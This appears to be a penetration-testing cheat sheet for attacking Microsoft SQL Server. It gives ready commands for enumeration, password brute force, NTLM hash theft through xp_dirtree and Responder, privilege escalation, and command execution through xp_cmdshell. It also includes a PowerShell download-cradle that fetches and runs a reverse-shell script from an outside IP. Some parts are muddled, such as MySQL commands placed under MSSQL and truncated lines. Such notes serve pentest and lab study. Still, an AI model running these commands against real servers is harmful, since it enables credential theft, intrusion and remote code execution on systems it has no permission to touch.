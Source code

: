 ```yaml
---
description: (TCP 1433-4, 135/UDP 143)(TCP 1433-4, 135/UDP 143)
---
```


# MSSQL

## :information\_source: Introduction

#### [Microsoft SQL](https://medium.com/@toprak.mhmt/what-is-mssql-9a152d7d4ed0)

By default, the typical ports used by SQL Server and associated database engine services are: **TCP 1433, 4022, 135, 1434, UDP 1434.**

## :ballot\_box\_with\_check: Checklist

* [ ] Try to query the DB if you have creds
* [ ] heck for DAC (Dedicated Access Connection)
* [ ] Login brute force
* [ ] Try NTLM relay with a fake SMB server
* [ ] If you can get access, check for privilege escalation methods to gain admin access to DB
* [ ] Check for CVEs

## Enumeration

```
nmap -sV -p 1433,1433  <IP>
nmap --script ms-sql-info <IP>
auxiliary/scanner/mssql/mssql_ping
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <I
```

## Authenticate with Empty Password

```
# Attempts to authenticate to Microsoft SQL Servers using an empty password forthe sysadmin (sa) account.
ms-sql-empty-password
```

## Login Brute Force

```
nmap -p 1433 –script ms-sql-brute –script-args userdb=[user.txt] ,passdb=[pass.txt] [target
use auxiliary/scanner/mssql/mssql_login
hydra -L [user.txt] –P [pass.txt] [target] mssql
medusa -h [target] –U [user.txt] –P [pass.txt] –M mssql
crackmapexec mssql <IP> -d <Domain Name> -u usernames.txt -p passwords.txt
```

## Dedicated Admin Connection (DAC)

The DAC port is used to connect to the database instance when normal connection attempts fail, for example, when server is hanging, out of memory or in other bad states. In addition, the DAC port provides an admin with access to system objects otherwise not accessible over normal connections.

The DAC feature is accessible on the loopback adapter per default, but can be activated for remote access by setting the 'remote admin connection' configuration value to 1. In some cases, when DAC has been remotely enabled but later disabled, the sql browser service may incorrectly report it as available.

```
sudo nmap -sU -p 1434 --script ms-sql-dac <ip>
```

![](<../../.gitbook/assets/image (276) (1) (1) (1) (1) (1) (1).png>)

## Query (with credentials)

### Automated

Queries Microsoft SQL Server (ms-sql) instances for a list of databases, linked servers, and configuration settings.

{% hint style="warning" %}
Credentials are required
{% endhint %}

```
nmap --script ms-sql-config
# example:
nmap -p 1433 --script ms-sql-config --script-args mssql.username=sa,mssql.password=sa <host>
```

sample output:

![](<../../.gitbook/assets/image (274) (1) (1).png>)

#### Other nmap Scripts with Credentials

```
# Dumps the password hashes from an MS-SQL server in a format suitable
# Credentials required
ms-sql-dump-hashes

# Queries Microsoft SQL Server (ms-sql) instances for a list of databases a user hasaccess to.
# Credentials required
ms-sql-hasdbaccess

# Runs a query against Microsoft SQL Server (ms-sql).
# Credentials required.
ms-sql-query

# Queries Microsoft SQL Server (ms-sql) for a list of tables per database.
# Credentials required
ms-sql-tables

# Attempts to run a command using the command shell of Microsoft SQL Server (ms-sql)
# Credentials required
ms-sql-xp-cmdshell
```

#### Metasploit Modules:

```
#Set USERNAME, RHOSTS and PASSWORD
#Set DOMAIN and USE_WINDOWS_AUTHENT if domain is used
​
#Steal NTLM
msf> use auxiliary/admin/mssql/mssql_ntlm_stealer #Steal NTLM hash, before executing run Responder
​
#Info gathering
msf> use admin/mssql/mssql_enum #Security checks
msf> use admin/mssql/mssql_enum_domain_accounts
msf> use admin/mssql/mssql_enum_sql_logins
msf> use auxiliary/admin/mssql/mssql_findandsampledata
msf> use auxiliary/scanner/mssql/mssql_hashdump
msf> use auxiliary/scanner/mssql/mssql_schemadump
​
#Search for insteresting data
msf> use auxiliary/admin/mssql/mssql_findandsampledata
msf> use auxiliary/admin/mssql/mssql_idf
​
#Privesc
msf> use exploit/windows/mssql/mssql_linkcrawler
msf> use admin/mssql/mssql_escalate_execute_as #If the user has IMPERSONATION privilege, this will try to escalate
msf> use admin/mssql/mssql_escalate_dbowner #Escalate from db_owner to sysadmin
​
#Code execution
msf> use admin/mssql/mssql_exec #Execute commands
msf> use exploit/windows/mssql/mssql_payload #Uploads and execute a payload
​
#Add new admin user from meterpreter session
msf> use windows/manage/mssql_local_auth_bypass
```

#### impacket mssqlclient:

```
mssqlclient.py  -db volume -windows-auth <DOMAIN>/<USERNAME>:<PASSWORD>@<IP> #Recommended -windows-auth when you are going to use a domain. use as domain the netBIOS name of the machine
​
#Once logged in you can run queries:
SQL> select @@ version;
​
#Steal NTLM hash
sudo responder -I <interface> #Run that in other console
SQL> exec master..xp_dirtree '\\<YOUR_RESPONDER_IP>\test' #Steal the NTLM hash, crack it with john or hashcat
​
#Try to enable code execution
SQL> enable_xp_cmdshell
​
#Execute code, 2 sintax, for complex and non complex cmds
SQL> xp_cmdshell whoami /all
SQL> EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.13:8000/rev.ps1") | powershell -noprofile'
```

#### sqsh

```
sqsh -S <IP> -U <Username> -P <Password> -D <Database>
```

### Manual

#### Local:

```
mysql -u root # Connect to root without password
mysql -u root -p # A password will be asked (check someone)
mysql -u root -h 127.0.0.1 -e 'show databases;'
```

Remote:

```
mysql -h <Hostname> -u root
mysql -h <Hostname> -u user@target-host
```

## MSSQL - SMB Relay Attack

If we are in the local network we can run an MitM attack and grab NTLM hashes by setting up a fake SQL server and making the service authenticate against our server.

{% embed url="https://www.netspi.com/blog/technical/network-penetration-testing/executing-smb-relay-attacks-via-sql-server-using-metasploit" %}

## Stored Procedures (db\_owner to sysadmin)

#### if we have the credentials of a DB user we can become sysadmin and execute commands remotely:

{% embed url="https://www.netspi.com/blog/technical/network-penetration-testing/hacking-sql-server-stored-procedures-part-1-untrustworthy-databases" %}

### Metasploit

```
use auxiliary/admin/mssql/mssql_esclate_dbowner
set rhost 172.20.10.2
set rport 1433
set username db1_owner
set password MyPassword!
```

## Stored Procedures (user impersonation)

This technique is mostly used for privilege escalation.

{% embed url="https://www.netspi.com/blog/technical/network-penetration-testing/hacking-sql-server-stored-procedures-part-2-user-impersonation" %}





















